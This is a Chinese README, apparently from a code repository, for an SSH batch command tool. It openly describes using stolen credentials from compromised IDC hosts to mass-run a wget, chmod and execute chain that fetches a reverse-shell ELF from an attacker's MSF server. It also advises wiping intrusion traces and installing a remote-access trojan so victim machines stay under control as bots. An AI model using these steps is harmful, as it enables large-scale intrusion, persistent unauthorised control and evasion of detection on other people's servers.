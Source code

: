 # 狼目安全 ssh 工具类

1：狼目安全ssh批量命令执行1.0工具

(IDC 服务器，指的是运行于 IDC 机房、可用于不同行业客户租用的数据中心服务器。用户完成租用后，即可远程使用本地电脑进行相关操作。常规情况下，IDC 服务器与标准服务器相比，在配置上进行了大幅升级扩充。例如，提升硬盘数据存量、保障低碳节能的绿色指标、以及进行机房温控，都是它的性能优势。通常而言，衡量 IDC 服务器的标准，主要表现在 IDC 服务商资质、IDC 服务器所在区域以及品牌配置等方面。)

在攻击成功拿下idc网站后，可以使用本工具，将获取到开通ssh端口的linux服务器ip；端口；用户名；密码这些信息存到.txt文本中 然后使用些整理工具或者叫ai帮忙整理成hostname:port:username:password和hostname port username password这两种格式(两种格式，选择其中一种即可)
具体：
hostname：ip地址
port：端口
username：用户名
password：密码
然后保存使用此文本，然后就可以批量执行命令了
我自己这边是使用的炫彩蛇msf 
首先设置好监听
然后在炫彩蛇msf上生成个.elf反弹shell文件,另存为保存在自己电脑上，然后上传在炫彩蛇msf的文件列表，上传成功后，使用它的一句话下载功能，生成个linux 下载并执行命令，比如这样：wget -O 反弹shell.elf --no-check-certificate https://炫彩蛇msf公网ip地址:炫彩蛇登录的端口/api/v1/d/?en=q93zQFtVZBz6%2BjdUVQb7AA%3D%3D && chmod 755 反弹shell.elf && ./反弹shell.elf 这样的命令，然后使用本工具批量命令执行，要注意的是它只会下载并执行在root目录下，我们可以在命令前面加个 cd /根目录 && 比如我要在etc目录中下载并执行 可以使用这个命令：cd /etc && wget -O 反弹shell.elf --no-check-certificate https://炫彩蛇msf公网ip地址:炫彩蛇登录的端口/api/v1/d/?en=q93zQFtVZBz6%2BjdUVQb7AA%3D%3D && chmod 755 反弹shell.elf && ./反弹shell.elf 
这样就可以在其他根目录中下载并执行了
上线炫彩蛇msf后我们就可以更好的进行渗透了
记住还要清除自己的入侵痕迹，不然一些细心的人就很有可能发现了
清理的方法有很多，这边就不写了，可以自行搜索一下。
提醒一下，炫彩蛇msf这个反弹shell并不是持久控制的到一定时间它会自己掉线，.elf反弹shell文件也不会自己删除，所以在上线炫彩蛇msf后，我们就必须做好权限维持，再找个正经一点的linux远控，生成个远控木马，再用炫彩蛇msf上传再控制终端并执行上传文件，这样就又上线到Linux远控上持久控制了，让对方的主机变成我们的肉鸡了
好了，后面的就可以自己慢慢摸索了。
同样这个工具可以用来干运维

如果工具有bug的话可以留言和私信我，这个工具以后还会持续更新的
